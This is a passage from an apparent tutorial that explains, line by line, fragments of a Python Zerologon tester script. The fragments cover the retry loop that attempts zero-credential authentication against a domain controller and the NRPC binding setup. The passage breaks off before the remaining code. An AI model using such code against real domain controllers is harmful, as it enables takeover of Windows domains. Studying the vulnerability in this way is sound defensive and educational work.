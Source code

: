 Lines 57 - 73

```python3
    def perform_attack(dc_handle, dc_ip, target_computer):

      print('Performing authentication attempts...')
      rpc_con = None
      for attempt in range(0, MAX_ATTEMPTS):  
        rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)

        if rpc_con == None:
          print('=', end='', flush=True)
        else:
          break

      if rpc_con:
        print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
      else:
        print('\nAttack failed. Target is probably patched.')
        sys.exit(1)
```

Line 1 is defining where the variables are being passed into for the local function,
\\DCNAME is being passed into the dc_handle variable,
dc_ip is being passed into dc_ip variable,
and dc_name is being passed into the target_computer variable.
All of which will be used later, or passed into different modules.

Line 4 sets the variable rpc_con equal to none,
this will be kept track of consistently to check and see if authentication is
successful, if it's not, the script will continue until 2000 retries is hit.
Line 5 is where the actual retries for Zero Logon occurs in the form of a for loop.
Line 6 sets the rpc_con variable to the output of a different function called
"try_zero_authenticate" with a couple of variables being passed to it,
specifically dc_handle, dc_ip, and target_computer. All of which we addressed earlier.
The next lines are simply checking if rpc_con is equal to a invalid login attempt,
if it is, print =, if not, print success, if 2000 retries is hit: print attack failed.

Lines 20-25

```python3
    def try_zero_authenticate(dc_handle, dc_ip, target_computer):

      binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
      rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
      rpc_con.connect()
      rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
```

Line 1 is defining the try_zero_authenticate function and is taking the previously
mentioned 3 variables as input, and is passing them into the function.
Lines 3-6 are establishing a bind and a session with NRPC over TCP/IP so that
we can communicate with the domain controller.

Lines 27-40
